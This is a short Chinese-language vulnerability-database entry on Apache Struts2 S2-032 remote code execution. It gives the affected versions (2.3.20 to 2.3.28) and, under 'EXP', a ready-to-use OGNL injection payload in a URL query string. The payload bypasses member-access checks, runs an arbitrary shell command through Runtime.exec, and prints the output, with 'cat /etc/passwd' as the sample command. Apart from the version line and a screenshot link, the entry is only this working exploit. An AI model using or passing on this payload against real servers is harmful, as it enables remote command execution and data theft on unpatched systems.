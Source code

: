 ```yaml
---
title: 'Struts2-S2-032远程代码执行'
date: Mon, 24 Aug 2020 13:20:51 +0000
draft: false
tags: ['RCE', 'struts2', '白阁-漏洞库', '远程命令执行']
---
```


### 影响范围

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

### EXP

```
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat /etc/passwd
```



![](Struts2%20S2-032%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20200824211724.png)